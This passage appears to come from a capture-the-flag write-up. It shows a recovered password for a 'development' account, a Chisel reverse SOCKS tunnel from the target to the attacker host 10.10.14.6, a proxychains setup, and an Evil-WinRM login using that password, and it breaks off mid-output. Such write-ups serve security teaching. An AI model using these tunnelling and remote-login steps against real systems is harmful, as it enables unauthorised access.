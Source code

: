If I guess the username development, and fill in the other two fields
from the saved password, it returns a password on clicking "Generate
Password":

![](/img/image-20220129082513332.png)

#### Tunnel WinRM

To see if "AMl.q2DHp?2.C/V0kNFU" is the password for the development
account, I'll start a new Chisel tunnel that provides a Socks proxy:



    PS C:\programdata> .\c client 10.10.14.6:8000 R:socks
    .\ch client 10.10.14.6:8000 R:socks
    2022/01/29 05:14:12 client: Connecting to ws://10.10.14.6:8000
    2022/01/29 05:14:12 client: Connected (Latency 91.3529ms)



I'll confirm the list of proxies at the end of `/etc/proxychains.conf`
is correctly pointing to TCP 1080:



    [ProxyList]
    socks5  127.0.0.1 1080



Proxychains will allow the `Evil-WinRM` connection:



    oxdf@hacky$ proxychains evil-winrm -i 127.0.0.1 -u development -p 'AMl.q2DHp?2.C/V0kNFU'
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
